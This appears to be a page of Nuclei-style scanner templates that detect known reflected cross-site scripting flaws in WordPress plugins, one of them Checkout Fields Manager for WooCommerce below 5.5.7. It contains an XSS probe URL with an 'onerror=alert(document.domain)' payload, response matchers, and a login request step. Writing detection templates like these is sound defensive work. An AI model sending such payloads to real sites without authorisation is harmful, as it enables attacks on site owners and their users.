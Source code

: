 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?action=fetch_posts&stream-id=1&hash=%3Cimg%20src=x%20onerror=alert(document.domain)%3E

### Matchers

**Type - word**

- part - body
- words
  1. "hash":"\<img src=x onerror=alert(document.domain)>"
  2. "errors"
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Checkout Fields Manager for WooCommerce \<5.5.7 - Cross-Site Scripting

## Description

- WordPress Checkout Fields Manager for WooCommerce 5.5.7 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - xss,wp,wordpress,authenticated,woocommerce,wpscan,wp-plugin

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
